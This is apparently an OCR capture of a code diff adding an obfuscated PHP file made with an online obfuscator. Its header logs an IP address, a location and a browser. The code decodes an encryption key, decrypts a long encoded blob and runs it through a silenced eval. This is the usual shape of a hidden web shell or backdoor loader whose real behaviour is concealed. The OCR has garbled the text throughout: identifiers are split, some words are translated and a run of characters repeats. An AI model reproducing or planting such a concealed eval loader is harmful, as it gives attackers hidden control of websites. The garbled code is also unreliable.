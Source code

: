 0,0 +1,16 @@ &lt;? php / * ** Situs: http://www.tool.eddiekidiw.com/phpobfuscator-v-02.html Tanggal: 2019-04-10 Hari: Rabu Waktu: 01:41:33 Ipaddress: 202.80.217.223 Hostname: 202.80.217.223 Kota: Jakarta Negara: ID Wilayah: Jakarta Browser: Mozilla / 5.0 (Linux; Android 7.0; Mi-4c) AppleWebKit / 537.36 (KHTML, seperti Gecko) Chrome / 72.0.3626.105 Mobile Safari / 537.36 Deskripsi: pencipta adidoank ** * / $ ASOHHPVxxkwqDZNfYrgM = ZUGlriLgcPQCcKnSCoTO ( '088116101097'); $ XpYUmDvNCPNjbgdHxtgk = ZUGlriLgcPQCcKnSCoTO ( '116.114.105.109'); $ OxRVyNzihVCJiJSMdLGY = ZUGlriLgcPQCcKnSCoTO ( '101110099114121112116'); $ zWVrWgnGbrAQgJJexgum = baru $ ASOHHPVxxkwqDZNfYrgM (ZUGlriLgcPQCcKnSCoTO ( '053102056050053101053100099054049098056050050054102099056048099098053048053102048102057102100099')); error_reporting (0); @eval ($ XpYUmDvNCPNjbgdHxtgk ($ zWVrWgnGbrAQgJJexgum -> $ OxRVyNzihVCJiJSMdLGY ('XKznXQAJ5lMC0oLMwONqg + lv1Cbe0M8CcvxtZMKSbzCJlrDkmijBWGZOvSPCa9THhPSFoFGCqTbKECJaHwUHratwRZoUXXq / aYw7Rp3tcocbA2KO4dwSyjhMdP93JiklhWOWYhIGbtr4xWETYbCO9FWW9C + j7FgbEPVJQ8fc88tBbTsVhh3xImIilt0ftbiRGvPMiiy7i4VWzE8eOjH / AsiOUG9NhfaOSQMr15mkYC4LGNGx2T5EHJguhDZVNXIInw1uQCglK5WIq3sGGgwOs7BXSZj6mOBNt / r7DTuAlIimNn4anP8dCI2uB8x90jzDjYx0D0skKf0Y7qz9NQ0wtxtaEzuYFJr9 / GQNA9F1ySZrN0NK / LtzdVQbccwcjCpaRjIvfxbL9v7AEqXZh2oR0gUPJe7OAlE8r4pw + ErY0G3 / p9GWApW / fmHRkouTks1pThxBTp + TGd53xMpfug5L6ShepyVz / R22K + wgZQdP4lOEaXSYjvGtu030gC6xCn3P8Teo1bipgrj3RO8s0XAN0pHfRMgEBE + qT8RdPi3hUoBAOrXwfFEKH2JyRWnTk5R9BZeB5nVqGJgqnheaqBij + ZrEOYZyiYHo + KoXFgsfG1InwMDKtxhWh8CxRJMfcFx / iEhAuW280XCF43K4D5b4NtBvyHFxyHXDwPUubwxilgvp0O1h7DMr3mUhQtmnwuUdsBTlHqzJ2r8dX9bmGngVg00FtoG9Linkv57na0WDDzrAOHCV95UmsczmxkLx31qd89WLJapnreDuoxip + j5Ixnh2eb7erYM88ocVy / HKS + TbY1 / A2j7U + o3ncSq / bBIgs7wLPKdGqIq15SGBcWMMlxSxTmfSpAcB1 + dQ + E39ehVLSxSjtK7SG6CrQcTzj1Y77KColRpoJJvlUcUVdxtFyVfu6SqnEjjCLtkjVFPEk2bIgYxFyOUmUeUykBbvWwtte4 + n07 + T7cpww7lQO + 5NF / 3wG16G8e4DLEP + 9TUxoCAxyfrtTBwkG + e9gXuE0XRtpW6VDVSBomAmp9XPeAmxaOax9Sr4jg3fc41y7tw6DdF71M7oRWLbCKBR9AIvT / dyq60F6EEnSpyng3sD2uxAxJWhkLPxzpSovGAwMk4fwMf0jA4122qe + CEnYDs2lhtOOduobDBZGGxyz6JOmLZOc4QhNOFhC1TZkq / ZmMz3AgQTkJ86P5JZV22CgWBAt / B8C5xYNHWX28r + bu + nqXBjadECEtQ7BGOgne5b + HsjRe0UsADMLeu4eH + 2d3vQaw3JEk6 + JLliu23IgzzmnZFRcqD5SZ + V10KIhVDLrVQIoXBW94 + 0734l3PZHopLtGA0H9TOhk3UQ0KAc5VoJh + jGUUsIQO9tLMkSBORVAkiDhVa4qB + 4jndtpsgV3F4OWkClR01w4gia / JKOnEfcOFJclgFAxqbJZ9erskxK0IWHG05FibT / HkvqoPdVFuj + r47ckJARJi8Z8Pi8d / vyIpqGc1NxP / kigpxCVxNhvT0xjASq1WsAXbRGVqwRnleF1C3ZF0M7f1b9n7k34c / Rsh5 / i + SnhOORETyFsbfDGmiHpu + dWs1Xg9xcuB2L6uMRCgZTaFm3TA + 0jKOEtyDVk6hmttoZy + xrmZ3D9bce29aXu3o1wQmHtw / mKB3TvM1HHVkFqLZfLKHQJK7CHj / Ggk6 + RL365D3khPVp9zLEqGMUhixkdO8ahGYiOwuJCycvJr + HDissptR7g8SH6TXvd / 8ryVK8m2fvuwnRHKptikJcOe2lAB2pgBf3K3cE3JK6FQ1IO + 15WiT0Hfe49zn3kmWZsBU + VEezthjx4iiJidKWgn + etsKq12qxjCfZj / + 2VDkMtJXxBGoA5 // bcFWoWARfQRIRj2bWVtkkqXougiMvjhcKi37UGJVgwDGk6kdXPkL / yvdbalYi3Tw397e6vvKMrQ / pQ0forvSwR9zXkSyfhAZYHRRl7uwBLdRPIpxEV1o8awRK / XcAo / F / po1DxQtW13vN8tQWl2c / + OnkP1jwIgJfo6nLfeQylt1wj0UCLXgD12EgAY + 4MYYz6mVILL2 + xQEpFbyzqP3iqoXPQ2GPARYZAaDyz0VumcwWN0g1Q0x2jwJbfMibI52in3vtTFdtSkwnmgDU1lpxmkMPOq4Xnsp0BLpOVs4HnQ2qvUDaOIkqYCPAIZO8hb8ntGMcaPCQCMPqlVqZNXnUBzRJtD43qUd0PlLXDz / yDNoGCrkrAdEMfwJ8VwmH8doEUq3op / o6dSuQAQZ4TzGHwgFp / 4Gi6EbRLcWWIABtp / XWEjfKK6KNdaYoDGwfpQZdSn8PM9l1aw6OKEG0sxT8wsbc28yBXDDj1egMVq1kNt0qn2962VJGrQxs3a8ovgkzcNmpN0knkVNcc6zCH7JrvzDSFY8mTs62VkG8WrgWpXJxjDCI35rq3nkvQE5zCpF8tl32159T1C6RQFianpaaX6htfpWXSI8ha + bhCRLvdKqE / 7nR4qwGJg1WHh6KPqI / COH7PM + LhNi4jH1z9EmuGB0pt9tPk2XSG7C4sRhVFm57XblZgfOvy1J5NIl / 4KxKr7uEmUuy9Ychdz27VTIjbWStb2gNT / YdliFH / ZOR1khRNVzROeg + hMpOAeJkiWtRoBG3d9DxKFewU5brwXL6JTSx54hqrRzY1l4Cg / YsNGvp56soWfSw9LasvgNDC3STHOLkN45YWXDIYgSyIO + IVm48IhD9vWxU3fY6qm / 6Py2kBC / dwP8G / NZ58h + / Db + 7KpFlK8J8uvf01oI2L ++ 0HFQK4em3AQExl5efe8Jw1 / j5rfTvtPNqGUVjEhXsjlA / YGrcOspLBsfABlZSFhUiRzz / oPHCt6S9pMenUvXC3YrCqfcnRnOEBTfT8IXZifGg6QSzCiHfuiJJNfcr / V68ZorIxOeRwcLg / GYELS45su2mCPVY + KuFf85mTYZXCGV / yo7za6mOHGS12IUv3nnbvc2Qp0rtZaV8Ce8lVSqCRgO0 + QEzN34ofmuPVM08z3 / md5KzcAGkyVFSVuRpLmyrPseMZzBjef2EiTDS2kAigov2QVzZOEHg9dvNBuxJf2xdAEnXxVQPn / E83K / Hh3Kn6I7FnDdESE5hc5aknj8z9T9yEntPRH9rsnsXWz7ng2dFv5lIpNfA / 8wHYi05miwcIsHGBs / phZC2A6VXcmpcsc6TweQrD7T06zS7d6dGYDLwFRNohdyLy1qTdyplOEbMuBn3gsAUqKM51NGpy6 + CZnRGnXnU9UW8EtPHiaAUaOFEgcKr06Ac4QaLre3bDpa + eX22LKp0p26t3qWzU52zO4b2jt660IET8 / rlpAFMv + GvP2ZKCtJvCxoU9JJJKt + P4PwjDZ3MGfqKD8T + dTW4qTt + HOyIcazeuPZBpBSVUWLmtTWIiiunzg5aUH6 / u7LsXs + g7Gi + U8SYIKN355fI / EWMH + ThN2VhxMyFJTj470OZOwR11LkKXTWFbVXrCNQhQAoOPnls8QDC1L + a5GqoDhszPZeZnu / 5sbPjOZip0nfGzfaRAukQsRZJrzXr + AozzwYk9F2XWt9c9Mh1l6TZ4DdvVZQ / MVTOuKla9 / VJzje + nL6gDzGXHV + KNVcPddZv1nUXEMFega5YN430T30Ethxr3t + vVoc7xFlSPtmHZY0r9 + pDs3Vh6KCsMoN8a1svAFfX5ZdAMZBKhJ4rDfU / ZemzbFJ + 9M1DR23xg6fVVsTZGG03eU5LAK8Ll5vEbEeQ73u7Q8eWQ8wnsljHa5Jydczk / 1ZiFCeCSoA / lYXKBy9RP5Q3c23vFM46vKbE0W8yiPtbrmUwziI0VA1z2sw7HY7V4MkwIrxYFyg7dM5hc0ufCXCG0Q540MwwQWVr3sKPwx6wxwpXAQEJo8BemKog4vbAwRqNVJEl / SUKqvPH3FfBlVPR + 0G6HtD1RLVSmkeIjPxOCOoWNXvzAzxWAckD8ny3u8gIwvznzj1xgeaZ6nURCf + NQMts5izu5R3lzjCcE1YAx / 9F6 / qr9EjVsUvJnsi99GBIlO0Jpy + 5y8 + YiiF8gaMEk4kRGnwt19E7xPdgI7vOHyYUXBwT7 / bCFA2N7aFD47he4Y8XtNOd4zyhtKARGmKR7wlxUV4m1sDfw8BTrh + SOJ + V53MfJvyH7ffSYxcfIUxgvVIskaIn1NJPa18pw6HvCEWl + x6CUB5FHH7oF3s / CnZbc2COworWIcthSaHD3Em8Af0snM3yFcKD8mcxdjmjdmcdjdmdjdmjdmjdmjdjdmg+ Tubr + 9 + BAnl / 5bqhldD49BA + wrT2ox5v + ZcstitweOt3CoUaKtTyMhWEE + p8IINqdAQlXS0i1zXI0J3WrIfIswNkd0Oaq3625 + AczcOFJ2amP42RRGdi5DkjYsN / Wws42881HAos0aTKjEQVGEL0 + VADGdln8zi6Sp3km2JxleLTC / BlTlB / DkWcK0YhoZZKv4GDjP + iDL0LT0Q0GOhKTCiCODTTg0nF10VHQqtJrf42rxe6xp9Algn74Mdo1MXJUxlDVYOZb8YH4II6XW / sb5yc3yPqS3ifekh57owszlsYEI2WuggmK / FwrrgKMrww6FP4cDPNTGUFZdMvWaTCJ0dYVcphGU6xsAz50bHOGLBm + Dvfc6fqLJFMN9 // 2QcQo5eBxfvxPhs9ZJbXFwL0rBVatinztzKcjzlsZ / IPTk5YtzaLeJXCZLJ /